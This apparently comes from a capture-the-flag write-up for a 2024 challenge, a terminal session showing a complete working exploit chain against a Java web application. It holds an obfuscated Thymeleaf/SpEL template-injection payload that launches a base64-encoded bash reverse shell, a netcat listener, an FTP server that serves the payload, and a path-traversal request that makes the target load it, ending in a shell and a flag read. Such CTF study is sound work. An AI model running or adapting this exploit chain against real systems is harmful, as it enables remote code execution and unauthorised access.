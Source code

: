 Local execution:
```
$ cat payload.html 
[[${T(org.thymeleaf.util.ClassLoaderUtils).loadClass('org.apa'+'che.logging.log4j.util.LoaderUtil').newInstanceOf('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser').parseExpression('T(java.lang.Runtime).getRuntime().exec("bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNy4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}")').getValue()}]]
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
^Z
[1]+  Stopped                 nc -nvlp 4444
$ sudo python3 -m pyftpdlib -p 21
[I 2024-01-28 15:28:17] concurrency model: async
[I 2024-01-28 15:28:17] masquerade (NAT) address: None
[I 2024-01-28 15:28:17] passive ports: None
[I 2024-01-28 15:28:17] >>> starting FTP server on 0.0.0.0:21, pid=31071 <<<
^Z
[2]+  Stopped                 sudo python3 -m pyftpdlib -p 21
$ curl 'http://172.17.0.2:8080/notify?fname=..%5c..%5c172.17.0.1/payload' -H 'Cookie: JSESSIONID=6FA5A7A9F393356B15FD4201921AD1DD'
^C
$ fg
sudo python3 -m pyftpdlib -p 21
[I 2024-01-28 15:28:25] 172.17.0.2:40046-[] FTP session opened (connect)
[I 2024-01-28 15:28:25] 172.17.0.2:40046-[anonymous] USER 'anonymous' logged in.
[I 2024-01-28 15:28:25] 172.17.0.2:40046-[anonymous] RETR /home/vm/Downloads/rwctf2024/chatterbox/attachment/payload.html completed=1 bytes=359 seconds=0.003
[I 2024-01-28 15:28:25] 172.17.0.2:40050-[] FTP session opened (connect)
[I 2024-01-28 15:28:25] 172.17.0.2:40050-[anonymous] USER 'anonymous' logged in.
[I 2024-01-28 15:28:25] 172.17.0.2:40050-[anonymous] RETR /home/vm/Downloads/rwctf2024/chatterbox/attachment/payload.html completed=1 bytes=359 seconds=0.001
[I 2024-01-28 15:28:25] 172.17.0.2:40050-[anonymous] FTP session closed (disconnect).
^C[I 2024-01-28 15:28:26] received interrupt signal
[I 2024-01-28 15:28:26] >>> shutting down FTP server, 2 socket(s), pid=31071 <<<
[I 2024-01-28 15:28:26] 172.17.0.2:40046-[anonymous] FTP session closed (disconnect).
$ fg
nc -nvlp 4444
Connection received on 172.17.0.2 45698
java@8c5c9254eceb:/$ id
id
uid=1000(java) gid=1000(java) groups=1000(java)
java@8c5c9254eceb:/$ /readflag
/readflag
flag{fake_flag}java@8c5c9254eceb:/$
```
